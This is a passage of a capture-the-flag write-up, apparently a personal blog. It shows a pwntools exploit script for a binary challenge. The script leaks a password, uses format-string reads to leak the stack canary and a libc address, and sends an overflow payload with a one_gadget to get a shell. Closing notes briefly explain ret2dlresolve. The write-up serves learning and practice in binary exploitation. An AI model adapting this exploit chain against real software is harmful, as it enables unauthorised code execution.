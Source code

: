 ```python
# View ticket/leak
p.sendline(b'2')
p.sendline(b'5')

p.recvuntil(b'idk')
leak = p.recvline()
password = u64(leak[1:9].ljust(8, b'\x00'))
p.sendline(b'3')
p.sendline(str(password).encode())
p.sendline(b'1')
p.sendline(b'%7$p')

p.recvuntil(b'0x')
canary = int(p.recvline()[:16], 16)
print(f"Canary = {hex(canary)}")

p.sendline(b'3')
p.sendline(str(password).encode())
p.sendline(b'1')
p.sendline(b'%3$p')

p.recvuntil(b'0x')
libc_write = int(p.recvline()[:12], 16)
libc.address = (libc_write - 23) - libc.symbols.write
print(hex(libc.address))
p.sendline(b'3')
p.sendline(str(password).encode())
p.sendline(b'1')

one_gadget = libc.address + 0xe3b01
payload = flat([
    'a' * 8,
    canary,
    'b' * 8,
    one_gadget
])
p.sendline(payload)
p.interactive()

# CSCTF{4rr4ys_4nd_th3re_1nd3x3s_h4ndl3_w1th_c4r3}
```
A fun challenge! Credit to my teammate `@athryx` for first spotting a potential vulnerability. It was a bit challenging to get a libc leak as the 4 byte buffer
only allowed single digit offsets, `%9$p` was the highest I could go, but we got the job done. 

# Things Learned in this CTF
1. There is a such a thing as a `ret2dlresolve` technique??!
    1. [https://ir0nstone.gitbook.io](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2dlresolve)
    2. Basically, we fake an entry in the PLT to trick the program into resolving a symbol of our choosing. Then, we can 
    call that symbol. So, we could trick the PLT into resolving something like system! Cool! This was one of the techniques
    used on the `ezrop` challenge
